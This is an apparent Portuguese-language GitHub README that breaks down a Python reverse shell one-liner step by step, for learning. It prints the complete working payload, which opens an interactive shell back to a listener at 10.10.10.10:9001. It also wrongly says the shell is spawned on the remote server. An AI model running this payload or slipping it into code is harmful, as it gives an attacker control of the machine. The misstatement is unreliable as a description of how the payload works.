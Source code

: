
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

<h2>👾  Descrição</h2>

Se você é um entusiasta do hacking e da Segurança da Informação com certeza você já usou ou já ouviu falar sobre o Reverse Shell Generator. É uma plataforma Web que você consegue utilizar um gerador de conexão reversa de diversos tipos de conexões para Windows, Linux e MAC, e com diferentes linguagens como: Python, C, Ruby e por ai vai.

Todo mundo sempre copia e cola um ou outro código de Shell reverso e percebendo isso resolvi questionar como realmente funciona um Reverse Shell. Será mesmo que é só copiar ou colar? Porque não podemos ir a fundo e ver oque podemos aprender com isso? Bora lá!


<h3>👾  O código</h3>

~~~shellscript
RHOST="10.10.10.10";export RPORT=9001;python
-c 'import sys,socket,os,pty;s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
~~~~
Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!

<h3>👾  Analisando o código</h3>

1)
~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
~~~~
Essas são duas instruções export em shell que definem variáveis de ambiente. RHOST é definido como o endereço IP do servidor remoto (neste caso, "10.10.10.10"), e RPORT é definido como o número da porta (neste caso, 9001).

2)
~~~shellscript
python -c '... '
~~~~
 Isso inicia a execução do Python com um comando inline. O código Python entre as 'aspas' simples será executado.
 
 3)
 ~~~shellscript
import sys,socket,os,pty;
~~~~
 Isso importa os módulos Python necessários para a execução do código:
 
  * sys: Fornece acesso a variáveis e funções relacionadas ao sistema.
  * socket: Permite a criação de soquetes para comunicação em rede.
  * os: Fornece funcionalidades relacionadas ao sistema operacional.
  * pty: É usado para interagir com terminais pseudo-TTY.

 4)
 ~~~shellscript
s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
~~~~

Aqui, um objeto de soquete (s) é criado usando a classe socket.socket(). Em seguida, é estabelecida uma conexão com o servidor remoto usando o endereço IP e a porta definidos nas variáveis de ambiente RHOST e RPORT. os.getenv é usado para acessar os valores das variáveis de ambiente definidas anteriormente.

 5)
 ~~~shellscript
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
~~~~
Este é um list comprehension que duplica os descritores de arquivo padrão (stdin, stdout e stderr) para o soquete criado. Isso redireciona a entrada e saída padrão para a conexão de rede, permitindo que comandos sejam enviados e recebidos pelo servidor remoto.

 6)
 ~~~shellscript
pty.spawn("sh")
~~~~
Finalmente, a função pty.spawn é usada para criar um shell interativo no servidor remoto. Isso permite que o usuário interaja com o servidor remoto como se estivesse no prompt de comando do servidor.

Em resumo, este código Python é um exemplo de um "one-liner" que estabelece uma conexão de rede com um servidor remoto e cria um shell interativo para interagir com o servidor. É importante notar que esse tipo de código pode ser usado para fins maliciosos, portanto, deve ser usado com responsabilidade e apenas em ambientes autorizados.








